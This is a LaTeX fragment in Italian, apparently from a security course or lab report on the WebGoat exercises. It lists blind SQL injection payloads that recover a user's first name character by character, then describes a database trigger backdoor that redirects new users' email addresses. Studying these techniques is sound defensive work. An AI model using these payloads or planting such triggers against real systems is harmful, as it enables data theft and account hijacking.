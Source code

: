 \documentclass[a4paper,openright,italian]{article}
\begin{document}
\begin{lstlisting}[caption={Query di interrogazione}, label={code:query_3},frame=trBL]
/* J */
101 AND (ascii( substr((SELECT first_name FROM 
                          user_data WHERE userid=15613),1 , 1)) = 74);
/* o */
101 AND (ascii(substr((SELECT first_name FROM 
                       user_data WHERE userid=15613),2 , 1)) = 111);
/* e */
101 AND (ascii(substr((SELECT first_name FROM 
                       user_data WHERE userid=15613),3 , 1)) = 101);
/* s */
101 AND (ascii(substr((SELECT first_name FROM 
                       user_data WHERE userid=15613),4 , 1)) = 115);
/* p */
101 AND (ascii(substr((SELECT first_name FROM 
                       user_data WHERE userid=15613),5 , 1)) = 112);
/* h */
101 AND (ascii(substr((SELECT first_name FROM 
                       user_data WHERE userid=15613),6 , 1)) = 104);
\end{lstlisting}
Il valore del campo ``first\_name'' \`e ``Joesph''.
\subsection{Database Backdoors}
I database permettono la creazione di {\it triggers}, ovvero di {\it stored procedures} che verranno chiamate dal database manager contestualmente all'esecuzione di altre operazioni come select, insert, update. Un attaccante, ad esempio, pu\`o inserire un trigger che sostituir\`a il campo email di ogni nuovo utente con il suo indirizzo di posta elettronica.
\end{document}

